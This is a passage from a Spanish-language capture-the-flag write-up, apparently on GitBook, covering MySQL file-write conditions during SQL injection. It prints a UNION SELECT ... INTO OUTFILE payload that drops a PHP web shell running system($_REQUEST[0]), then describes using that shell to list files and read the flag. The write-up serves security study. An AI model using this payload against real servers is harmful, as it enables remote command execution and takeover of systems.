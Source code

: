 Nos salta un error pero de las tres condiciones necesarias, el usuario ya cuenta con el privilegio **FILE** habilitado y además la variable global **secure\_file\_priv** de MySQL no está activa, por lo que el problema debe encontrarse en la tercera condición, es decir, en la falta de permisos de escritura en la ubicación del servidor donde se pretende guardar el archivo.

```
'+union+select+"","",'<%3fphp+system($_REQUEST[0])%3b+%3f>',+"",+""+into+outfile+'/var/www/html/dashboard/shell.php'--+-
```

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Accedemos a la web shell.

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Listamos los archivos.

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido de la flag.

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

